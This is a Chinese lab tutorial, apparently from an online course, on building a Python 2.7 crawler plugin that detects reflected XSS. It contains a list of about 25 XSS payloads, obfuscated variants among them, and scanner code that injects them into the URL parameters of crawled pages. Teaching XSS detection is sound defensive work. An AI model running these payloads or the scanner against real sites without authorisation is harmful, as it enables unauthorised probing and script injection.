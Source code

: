 # 基于爬虫开发 XSS 检测插件

## 一、实验说明

### 1.1 实验内容

本节课会基于上节课开发的插件框架，讲解 xss 漏洞形成的原理，据此编写一个简单的 XSS 检测插件，先上效果图。

![xss插件效果图](https://dn-anything-about-doc.qbox.me/document-uid102428labid2648timestamp1489725913410.png/wm)

### 1.2 实验知识点

- XSS 基础知识
- XSS 检测原理

### 1.3 实验环境

- Python 2.7
- Xfce 终端
- sublime

### 1.4 适合人群

本课程难度为一般，属于中级级别课程，适合具有 Python 基础的用户，熟悉 python 基础知识加深巩固。

### 1.5 代码获取

你可以通过下面命令将代码下载到实验楼环境中，作为参照对比进行学习。

```
$ wget http://labfile.oss.aliyuncs.com/courses/761/shiyanlouscan3.zip
$ unzip shiyanlouscan3.zip

```

## 二、开发准备

### xss 攻击原理

#### 什么是 XSS

> 跨站脚本攻击 (Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS) 的缩写混淆，故将跨站脚本攻击缩写为 XSS。恶意攻击者往 Web 页面里插入恶意 Script 代码，当用户浏览该页之时，嵌入其中 Web 里面的 Script 代码会被执行，从而达到恶意攻击用户的目的。

#### 为什么要打造这个检测程序？

1. XSS 很少有自动化工具可以对其进行攻击检测
2. 很难发现

#### 敲黑板！！

但是大家不要高兴的太早，我们这篇 xss 检测程序是很原始很初级的自动化检测，只能检测一部分 xss 漏洞，但没关系，我们先做出雏形，在后期维护的时候慢慢增强这个功能。

## 三、实验步骤

### 3.1 上节回顾

在上节课中，我们基于爬虫系统开发出了插件系统，这个系统会非常方便的把爬取出来的链接传递到插件系统中，· 还记得怎么编写吗？我们只需要一个框架：

```
import re,random
from lib.core import Download
class spider:
    def run(self,url,html):
         pass

```

然后将运行函数写到 run 函数里面就可以了, url,html 是插件系统传递过来的链接和链接的网页源码。

### 3.2 XSS 检测原理：

我们这里先做个很简单的 xss 原理检测工具，也很简单，就是通过一些 xss 的 payload 加入到 url 参数中，然后查找 url 的源码中是否存在这个参数，存在则可以证明页面存在 xss 漏洞了。

payload list:

```
</script>"><script>prompt(1)</script>
</ScRiPt>"><ScRiPt>prompt(1)</ScRiPt>
"><img src=x onerror=prompt(1)>
"><svg/onload=prompt(1)>
"><iframe/src=javascript:prompt(1)>
"><h1 onclick=prompt(1)>Clickme</h1>
"><a href=javascript:prompt(1)>Clickme</a>
"><a href="javascript:confirm%28 1%29">Clickme</a>
"><a href="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+">click</a>
"><textarea autofocus onfocus=prompt(1)>
"><a/href=javascript&colon;co\u006efir\u006d&#40;&quot;1&quot;&#41;>clickme</a>
"><script>co\u006efir\u006d`1`</script>
"><ScRiPt>co\u006efir\u006d`1`</ScRiPt>
"><img src=x onerror=co\u006efir\u006d`1`>
"><svg/onload=co\u006efir\u006d`1`>
"><iframe/src=javascript:co\u006efir\u006d%28 1%29>
"><h1 onclick=co\u006efir\u006d(1)>Clickme</h1>
"><a href=javascript:prompt%28 1%29>Clickme</a>
"><a href="javascript:co\u006efir\u006d%28 1%29">Clickme</a>
"><textarea autofocus onfocus=co\u006efir\u006d(1)>
"><details/ontoggle=co\u006efir\u006d`1`>clickmeonchrome
"><p/id=1%0Aonmousemove%0A=%0Aconfirm`1`>hoveme
"><img/src=x%0Aonerror=prompt`1`>
"><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;">
"><h1/ondrag=co\u006efir\u006d`1`)>DragMe</h1>

```

### 3.3 可能大家会问为什么这样就可以检测 xss

答：xss 原理是把输入的代码当作 html 执行了，执行了就会在网页源码中显示，所以我们查找就行。

### 3.4 xss 就这么简单？

错，xss 有各种各样的玩法，本文只是一个简单的工具，用作抛砖引玉。

### 3.5 代码编写

为了以后代码编写的方便，我们编写一个函数取出 url 中的参数，

比如`https://www.shiyanlou.com/courses/?a=1&b=2&c=3` 。

我们要将 1 2 3 都取出来进行替换，所以我们先创建一个公共函数来分割这些文本。

在文件 `lib/core/common.py` 中

```
def urlsplit(url):
    domain = url.split("?")[0]
    _url = url.split("?")[-1]
    pararm = {}
    for val in _url.split("&"):
        pararm[val.split("=")[0]] = val.split("=")[-1]

    #combine
    urls = []
    for val in pararm.values():
        new_url = domain + _url.replace(val,"my_Payload")
        urls.append(new_url)
    return urls

```

这个函数会返回一个元祖将每个参数用 my_Payload 标记，到时候我们替换这个参数就行了。

然后编写我们的 xss 检查程序，这个程序也是一个基于爬虫的框架。

### 3.6 开始之前

开始之前现在目录新建一个 data 文件夹，这个文件夹用于存储我们的一些数据。

然后把 xss payload 放入进入，命名的话随意，这里我就命名为 xss.txt， 内容为之前的 xss payload list。

### 3.7 xss 检测程序代码

在`script`目录下新建文件`xss_check.py`。

代码如下：

```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

from lib.core import Download,common
import sys,os

payload = []
filename = os.path.join(sys.path[0],"data","xss.txt")
f = open(filename)
for i in f:
    payload.append(i.strip())

class spider():
    def run(self,url,html):
        download = Download.Downloader()
        urls = common.urlsplit(url)

        if urls is None:
            return False
        for _urlp in urls:
            for _payload in payload:
                _url = _urlp.replace("my_Payload",_payload)
                print "[xss test]:",_url
                #我们需要对URL每个参数进行拆分,测试
                _str = download.get(_url)
                if _str is None:
                    return False
                if(_str.find(_payload)!=-1):
                    print "xss found:%s"%url
        return False

```

效果图：

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid102428labid2648timestamp1489725902024.png/wm)

```
payload = []
filename = os.path.join(sys.path[0],"data","xss.txt")
f = open(filename)
for i in f:
    payload.append(i.strip())

```

这行代码主要实现了读取我们的 xsspayload 文件。

因为文件是在 windows 下生成的，所以我们要对每行用`strip()`过滤下`\n` `空格`等的特殊符号。接下来的代码就是 xss 检测的运行流程了，获取到 url，拆分 url，对每个 url 拆分参数进入注入分析，成功就返回出来。一个很简单的思路。

![此处输入图片的描述](https://dn-anything-about-doc.qbox.me/document-uid102428labid2648timestamp1489726069536.png/wm)